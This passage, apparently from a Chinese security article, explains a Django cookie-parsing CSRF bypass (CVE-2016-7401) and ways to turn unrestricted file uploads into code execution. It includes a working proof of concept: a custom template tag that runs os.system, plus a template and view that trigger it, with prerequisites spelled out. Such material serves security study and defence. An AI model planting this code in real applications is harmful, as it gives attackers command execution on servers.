 django在当时的版本有cookie解析漏洞，当Cookie.SimpleCookie()解析a=hello]b=world这样的字符串时，就会取得a=hello和b=world，所以当Referer为http://x.com/hello]csrftoken=world，csrftoken就被成功赋值。

详细的[**代码分析**](http://blog.knownsec.com/2016/10/django-csrf-bypass_cve-2016-7401/)，值得一看。



**文件上传**

在php环境下如果不限制上传文件后缀会导致getshell，但在django下，如果上传的文件能覆盖类似url.py，__init__.py的文件，攻击者能顺利getshell。参考[https://www.secpulse.com/archives/36220.html](https://www.secpulse.com/archives/36220.html) 。还有django只有在development server的模式下才会修改了文件就立刻重启，否则修改了文件也暂时无法生效。

当然除此之外还有其他方法，例如写cron（前提是有权限），和模板文件。

简单说一下写模板文件的过程：

需要在templatetags和templates分别写入一个文件（可能也不叫templatetags，可自行定义），templatetags文件夹内存放自定义标签，上传文件rce.py，代码如下：



```
from django import template
    import os
    register = template.Library()
    @register.simple_tag
    def some_function(value):
        shell = os.system('touch mapl0')
        return shell
```

templates文件夹存放静态html文件，上传文件home.html如下：



```
&lt;!DOCTYPE html&gt;
    &lt;html&gt;
    &lt;head&gt;
        &lt;meta charset="UTF-8"&gt;
        &lt;title&gt;Title&lt;/title&gt;
    &lt;/head&gt;
    &lt;body&gt;
    `{`% load rce %`}`
    `{`% some_function "%s" as func %`}`
    &lt;p&gt; command is `{``{` func `}``}` &lt;/p&gt;
    &lt;/body&gt;
    &lt;/html&gt;
```

在view里，index会使用这个模板：



```
def index(request, *args, **kwargs):
        return render(request, 'home.html')
```

访问后，就在项目目录生成了mapl0文件。

可见使用限制很大，还需要一定的权限。首先，文件后缀没有限制，其次上传路径没有限制，templatetags目录已知，另外还需要有view使用这个模板。
